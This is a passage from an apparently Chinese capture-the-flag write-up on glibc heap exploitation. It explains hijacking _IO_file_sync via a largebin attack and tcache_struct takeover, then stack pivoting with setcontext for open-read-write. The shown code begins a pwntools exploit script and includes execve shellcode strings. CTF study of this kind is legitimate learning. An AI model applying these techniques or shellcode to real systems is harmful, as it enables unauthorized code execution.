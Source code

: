 进入assert后，跟进调试可以发现在`fflush`函数中调用到了一个指针：位于`_IO_file_jumps`中的`_IO_file_sync`指针

在这个函数里第三个参数为`IO_helper_jumps`指针，其值为固定值

![image-20220527224208227](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/image-20220527224208227.png)

![image-20220527224307476](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/image-20220527224307476.png)

我们使用方案一

修改 `_IO_file_jumps + 0x60`的`_IO_file_sync`指针为`setcontext+61`

修改`IO_helper_jumps + 0xA0 and 0xA8`分别为可迁移的存放有ROP的位置和ret指令的gadget位置,则可以进行栈迁移orw

![image-20220527224613978](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/image-20220527224613978.png)

这里借用fmyy师傅的exp，写一点注释

这道题主要的思路是利用largebinatttack任意地址写，去打线程中存放tcache_struct地址的位置

劫持tcache_struct，达到任意地址写的目的，再结合assert断言触发payload

```python
# _*_ coding:utf-8 _*_
from pwn import *
context(arch='amd64', os='linux', log_level='debug')

p = process('./fcvk')
elf = ELF("./fcvk")
libc = elf.libc

def dbg():
    gdb.attach(p)
    pause()

#-----------------------------------------------------------------------------------------
s       = lambda data               :p.send(str(data))
sa      = lambda text,data          :p.sendafter(text, str(data))
sl      = lambda data               :p.sendline(str(data))
sla     = lambda text,data          :p.sendlineafter(text, str(data))
r       = lambda num=4096           :p.recv(num)
ru      = lambda text               :p.recvuntil(text)
uu32    = lambda                    :u32(p.recvuntil("\xf7")[-4:].ljust(4,"\x00"))
uu64    = lambda                    :u64(p.recvuntil("\x7f")[-6:].ljust(8,"\x00"))
lg      = lambda s                  :p.success('%s -> 0x%x' % (s, eval(s)))

sh_x86_18="\x6a\x0b\x58\x53\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80"
sh_x86_20="\x31\xc9\x6a\x0b\x58\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80"
sh_x64_21="\xf7\xe6\x50\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x48\x89\xe7\xb0\x3b\x0f\x05"
#https://www.exploit-db.com/shellcodes
#-----------------------------------------------------------------------------------------

def menu(ch):
    p.sendlineafter('>> ',str(ch))
def New(size,content):
    menu(1)
    p.sendlineafter('Size: ',str(size))
    p.sendafter('Content: ',content)
def Modify(index,content):
    menu(2)
    p.sendlineafter('Index: ',str(index))
    p.sendafter('Content: ',content)
def Show(index):
    menu(4)
    p.sendlineafter('Index: ',str(index))
def Free(index):
    menu(3)
```